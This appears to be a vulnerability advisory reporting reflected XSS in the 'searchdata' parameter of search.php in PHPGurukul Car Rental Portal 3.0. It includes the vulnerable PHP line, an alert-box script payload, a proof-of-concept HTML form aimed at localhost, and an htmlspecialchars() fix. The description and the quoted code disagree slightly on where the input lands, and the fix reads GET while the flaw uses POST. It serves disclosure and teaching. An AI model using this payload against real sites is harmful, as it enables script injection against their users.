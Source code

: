 # [XSS vulnerability] found in Car Rental Portal 3.0 - (search.php)


Affected Project: **Car Rental Portal**

Web: Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/car-rental-project-php-mysql-free-download/)

Version: 3.0

Updated: 05 June 2024

Vulnerable file: /search.php

Injection parameter: `searchdata`

<br />

Size: 16.0 MB
Sha256: 8a9ad60cf5f36e2c3c4a1ce6fed7438bb458a2d2489e2a1be60dbbdd481fdf8b

<br />

## Vulnerability Description:
The issue arises because the `searchdata` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<h1>Search Result of keyword "<?php echo $_POST['searchdata'];?>"</h1>
```

<br />

## Injection Payload Tested:

We set `searchdata` to:
```
"><script>alert('XSS')</script>
```

<br />

## Execution:

When the browser parses this through a POST request, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `search.php` looks like:

<br />

![search.php](https://i.postimg.cc/mg6Vs6Vd/1.png)

<br />

As it is a POST request we need to use a file `test_form.html` with the following content to be able to trigger the XSS popup:
```
<!DOCTYPE html>
<html>
<head>
    <title>Search Form</title>
</head>
<body>
    <form action="http://localhost:8000/carrental/search.php" method="POST">
        <input type="text" name="searchdata" value='"><script>alert("XSS")</script>'>
        <input type="submit" value="Search">
    </form>
</body>
</html>
```

Then we have to open it on the browser:

For example:
`file:///home/username/Desktop/test_form.html`

<br />

![payload](https://i.postimg.cc/nVYkzL09/2.png)

<br />

After submitting the payload using POST with the vulnerable parameter `searchdata` and the XSS payload `"><script>alert('XSS')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/t4fdfnCw/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
// Retrieve the search data using GET
$searchData = isset($_GET['searchdata']) ? $_GET['searchdata'] : '';

// Escape the output to prevent XSS
$safeSearchData = htmlspecialchars($searchData, ENT_QUOTES, 'UTF-8');
```

<br />

> One Click Can Change Everything: Be Secure.
